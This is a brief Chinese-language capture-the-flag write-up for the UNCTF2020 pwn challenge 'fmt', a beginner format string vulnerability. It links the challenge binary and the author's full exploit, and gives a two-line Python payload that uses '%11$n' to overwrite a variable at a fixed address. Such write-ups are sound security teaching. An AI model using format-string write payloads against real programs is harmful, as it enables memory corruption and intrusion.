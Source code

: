 
## 你真的会pwn嘛？
- 题目描述
- 题目附件：[fmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/fmt/fmt)
- 考察点：格式化字符串漏洞
- 难度：签到

### 程序分析
覆盖变量为非零值即可

### 解题思路
``` python
target = 0x60107C
sl('AAA%11$n'+p64(target))
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/fmt) 

